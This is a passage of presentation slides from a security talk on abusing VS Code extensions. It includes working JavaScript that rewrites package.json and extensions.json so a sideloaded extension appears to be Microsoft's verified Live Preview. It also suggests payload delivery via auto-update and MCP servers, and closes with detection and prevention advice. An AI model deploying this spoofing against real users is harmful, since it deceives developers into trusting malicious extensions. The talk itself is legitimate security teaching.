  ...
}
```
- Then, just zip the contents again

```bash {1-2|3-}
$ ls
[Content_Types].xml    extension              extension.vsixmanifest

$ zip -r ritwick.vsix *
```

Now we can install it normally using:

```bash
$ code --install-extension ritwick.vsix
```

Triggering the extension now should lead to the addon execution

---
transition: fade-out
---

_Proof or did not happen_



However, the IoC from the last payload still remain. Time to move onto the next method.

---
transition: fade-out
layout: center
class: text-center
---

# Method #2

_Fake it till you make it_

---
transition: fade-out
layout: center
---

# Before that, Questions!

- The extension source code does not have any metadata built in - so how is code getting the stats (including the blue tick)? 

- How is code determining the source as VSIX? 

---
transition: fade-out
layout: center
---

<div class="relative">

# Answers!

From the **`src/vs/platform/extensionManagement/common/extensionGalleryService.ts`** source file we can infer the following:

- Class: `AbstractExtensionGalleryService`
- `queryGalleryExtensions()` — builds and POSTs requests to `{serviceUrl}/extensionquery`
- `queryRawGalleryExtensions()` — constructs the raw HTTP request body
- `toExtension()` — transforms the raw API response (`IRawGalleryExtension`) into `IGalleryExtension`:
  - maps `statistics` array entries by name: `"install"` → `installCount`, `"averagerating"` → `rating`, `"ratingcount"` → `ratingCount`
  - extracts asset URIs, version properties, publisher verification


</div>

---
transition: fade-out
---

<h1 class="!text-2xl !mb-2">Revisiting some old stuff</h1>

<div class="text-sm">

A while back we looked in the `~/.vscode/extensions` and there was a file in there `extensions.json` - time to examine it's contents.

</div>

<div class="tiny-code-local">

```bash {1|4-6|7|10-12|19}
$ cat ~/.vscode/extensions/extensions.json| jq
[
  {
    "identifier": {
      "id": "ms-vscode.live-server"
    },
    "version": "0.4.19",
    "location": {
      "$mid": 1,
      "fsPath": "/Users/db/.vscode/extensions/ms-vscode.live-server-0.4.19",
      "external": "file:///Users/db/.vscode/extensions/ms-vscode.live-server-0.4.19",
      "path": "/Users/db/.vscode/extensions/ms-vscode.live-server-0.4.19",
      "scheme": "file"
    },
    "relativeLocation": "ms-vscode.live-server-0.4.19",
    "metadata": {
      "installedTimestamp": 1779876318258,
      "pinned": false,
      "source": "gallery",
      "id": "4eae7368-ec63-429d-8449-57a7df5e2117",
      "publisherId": "5f5636e7-69ed-4afe-b5d6-8d231fb3d3ee",
      "publisherDisplayName": "Microsoft",
      "targetPlatform": "undefined",
      "updated": false,
      "private": false,
      "isPreReleaseVersion": false,
      "hasPreReleaseVersion": false
    }
  }
]
```

</div>

<style>
.tiny-code-local pre,
.tiny-code-local code,
.tiny-code-local .shiki,
.tiny-code-local .slidev-code {
  font-size: 10px !important;
  line-height: 1.25 !important;
}
.tiny-code-local pre code span {
  font-size: 10px !important;
}
</style>

---
transition: fade-out
---

Fetching the stats

```bash {-|4}
$ curl -X POST "https://marketplace.visualstudio.com/_apis/public/gallery/extensionquery" -H "Content-Type: application/json" -H "Accept: application/json;api-version=7.2-preview" -H "User-Agent: VSCode" -d '{
    "filters": [{
      "criteria": [
        { "filterType": 7, "value": "ms-vscode.live-server" }
      ],
      "pageSize": 1,
      "pageNumber": 1,
      "sortBy": 0,
      "sortOrder": 0
    }],
    "assetTypes": [],
    "flags": 950
  }' | jq

```

---
transition: fade-out
class: center
---

<div style="max-height: 450px; overflow: auto">

```json {-|6-10|13-14|21-27|34-53}
{
  "results": [{
    "extensions": [{
      "publisher": {
        "publisherId": "5f5636e7-69ed-...",
        "publisherName": "ms-vscode",
        "displayName": "Microsoft",
        "flags": "verified",
        "domain": "https://microsoft.com",
        "isDomainVerified": true
      },
      "extensionId": "4eae7368-ec63-...",
      "extensionName": "live-server",
      "displayName": "Live Preview",
      "flags": "validated, public, preview",
      "lastUpdated": "2026-05-25T09:22:12.87Z",
      "publishedDate": "2021-06-21T20:33:59.11Z",
      "releaseDate": "2021-06-21T20:33:59.11Z",
      "shortDescription": "Hosts a local server...",
      "versions": [{
        "version": "0.5.2026052501",
        "flags": "validated",
        "lastUpdated": "2026-05-25T09:22:12.87Z",
        "files": [{ /* More info */ }],
        "properties": [ /* More info */ ],
        "assetUri": "https://ms-vscode.gallery...",
        "fallbackAssetUri": "https://ms-vscode..."
      }],
      "categories": ["Other"],
      "tags": [
        "browser", "html", "live", "livepreview",
        "preview", "refresh", "reload"
      ],
      "statistics": [
        { "statisticName": "install",
          "value": 12685904.0 },
        { "statisticName": "averagerating",
          "value": 4.4358973503112793 },
        { "statisticName": "ratingcount",
          "value": 78.0 },
        { "statisticName": "trendingdaily",
          "value": 0.0024848936217040547 },
        { "statisticName": "trendingmonthly",
          "value": 2.2341560224473458 },
        { "statisticName": "trendingweekly",
          "value": 0.43457212170417531 },
        { "statisticName": "updateCount",
          "value": 23771546.0 },
        { "statisticName": "weightedRating",
          "value": 4.4379817198469258 },
        { "statisticName": "downloadCount",
          "value": 56767.0 }
      ],
      "deploymentType": 0
    }
    ],
    "pagingToken": null,
    "resultMetadata": [{
      "metadataType": "ResultCount",
      "metadataItems": [
        { "name": "TotalCount", "count": 1 }
      ]
    }
    ]
  }]
}
```

</div>

---
transition: fade-out
layout: default
class: text-left
---

# Installing a demo extension and checking `extensions.json`

```bash

# Create a demo extension
$ yo code --skip-cache --ask-answered --open --extensionType js --pkgManager npm --extensionDisplayName DemoExtension --quick demo_extension

# Go inside the folder
$ cd  demoextension

# Just to make vsce happy
$ echo "" > README.md

# Package demo extension
$ vsce package --no-yarn --allow-missing-repository --skip-license

# Install extension
$ code --install-extension demoextension-0.0.1.vsix
```
---
layout: default
class: text-left
---

```bash {-|4-6|19}
$ cat ~/.vscode/extensions/extensions.json | jq
[
  {
    "identifier": {
      "id": "undefined_publisher.demoextension"
    },
    "version": "0.0.1",
    "location": {
      "$mid": 1,
      "fsPath": "/Users/db/.vscode/extensions/undefined_publisher.demoextension-0.0.1",
      "external": "file:///Users/db/.vscode/extensions/undefined_publisher.demoextension-0.0.1",
      "path": "/Users/db/.vscode/extensions/undefined_publisher.demoextension-0.0.1",
      "scheme": "file"
    },
    "relativeLocation": "undefined_publisher.demoextension-0.0.1",
    "metadata": {
      "installedTimestamp": 1779897094747,
      "pinned": true,
      "source": "vsix"
    }
  }
]
```

---
layout: image-left
image: https://render.fineartamerica.com/images/rendered/default/print/8/5.5/break/images/artworkimages/medium/2/thinking-cat-douglas-sacha.jpg
---

# What if we create an extension which:

- Reads the current package.json 
- Makes a POST request to Marketplace API with the target extension 
- Updates package.json
- Updates extensions.json

---
---

```js {1-4|5-7|8-10|11-16|17-20|21-57|58-70|71-73|74-} {maxHeight:'440px'}
// Importing stuff we need
const fs = require("fs");
const path = require("path");
const os = require("os");

// Function which would "spoof" our extension
async function updateExtension() {
  // Name and publisher of the extension we wanna spoof
	let new_publisher = "ms-vscode";
	let new_name = "live-server";

  // Read the current extension's package.json to get the required fields
	const packageJsonPath = path.join(__dirname, "./package.json");
	const packageJson = JSON.parse(fs.readFileSync(packageJsonPath, "utf8"));
	const old_name = packageJson.name;
	const old_publisher = packageJson.publisher? packageJson.publisher: "undefined_publisher";

  // Reading extensions.json to get the other required values
	const extensionsJsonPath = path.join(__dirname, "..", "./extensions.json");
	const extensions = JSON.parse(fs.readFileSync(extensionsJsonPath, "utf8"));

	const queryValue = `${new_publisher}.${new_name}`;
	const response = await fetch(
		"https://marketplace.visualstudio.com/_apis/public/gallery/extensionquery",
		{
			method: "POST",
			headers: {
				"Content-Type": "application/json",
				Accept: "application/json;api-version=7.1-preview.1",
				"User-Agent": "VSCode",
			},
			body: JSON.stringify({
				filters: [
				{
					criteria: [{ filterType: 7, value: queryValue }],
					pageSize: 1,
					pageNumber: 1,
					sortBy: 0,
					sortOrder: 0,
				},
				],
					assetTypes: [],
					flags: 950,
			}),
		}
	);

	if (!response.ok) {
		throw new Error(`Marketplace request failed: ${response.status} ${response.statusText}`);
	}

	const marketplaceData = await response.json();

	const extension = marketplaceData?.results?.[0]?.extensions?.[0];
	if (!extension) {
		throw new Error("No extension found in marketplace response");
	}

  // Get the information we need from the response json and update the entries as required
	const extensionId = extension.extensionId;
	const publisherId = extension.publisher?.publisherId;
	const publisherDisplayName = extension.publisher?.displayName;
	const latestVersion = extension.versions?.[0]?.version;

	packageJson.name = new_name;
	packageJson.publisher = new_publisher;
	packageJson.displayName = extension.displayName;
	if (latestVersion) {
		packageJson.version = latestVersion;
	}

  // Update package.json with the entry data
	fs.writeFileSync(packageJsonPath, JSON.stringify(packageJson, null, 2));

  // Replace the value in extensions.json
	const oldId = `${old_publisher}.${old_name}`;
	const newId = `${new_publisher}.${new_name}`;

  // Find the entry in extensions.json and update it
	const entry = extensions.find((e) => e?.identifier?.id === oldId);
	if (!entry) {
	throw new Error(`No entry found in extensions.json with id "${oldId}"`);
	}

	entry.identifier.id = newId;
	// Update version
	if (latestVersion) {
	entry.version = latestVersion;
	}

	if (!entry.metadata) entry.metadata = {};

	entry.metadata.source = "gallery";
	entry.metadata.id = extensionId;

	if (publisherId) {
	entry.metadata.publisherId = publisherId;
	}

	if (publisherDisplayName) {
	entry.metadata.publisherDisplayName = publisherDisplayName;
	}

	fs.writeFileSync(extensionsJsonPath, JSON.stringify(extensions, null, 2));
}
```

---
layout: center
---

<video
  controls
  src="./imgs/poc.mov"
  type="video/quicktime"
  style="width: 100vw; height: 100vh; object-fit: contain; position: fixed; top: 0; left: 0; background: black; z-index: 9999;"
  onclick="if(this.requestFullscreen) this.requestFullscreen(); else if(this.webkitRequestFullscreen) this.webkitRequestFullscreen();"
/>

---
layout: center
---

# There is so much more you can do!

- Spoof extensions
- Insert payloads into other extensions
- Use auto update to deliver payloads!

---
layout: center
---

# Detections and IOCs

- Visual Cues like mismatching names
- Loading a `.node` file is really suspicious (major IoC)
- Installing extensions from VSIX files directly is a red flag
- All the detections applicable to DLLs, apply to Addon files as well

<br />

# Prevention

- Prevent loading of extensions from disk
- Do a signature check of all commonly used extension
- Keep a white list of well audited extensions from both OpenVSX and Visual Studio Marketplace
- Maintain a SBOM (Software Bill of Materials) to monitor for any discovered vulnerabilities

---
layout: center

---

# Future Plans

- MCP servers are coming up hot
- Claude Desktop Apps use a very similar format
- Experiment with putting addons in MCP servers
- Profit?

---
layout: two-cols
class: items-center gap-8
---

<div class="flex flex-col justify-center h-full">

# Thanks for attending

Do check us out at Antisyphon Training!

</div>

::right::

<div class="flex flex-col justify-center h-full pl-8">


</div>

---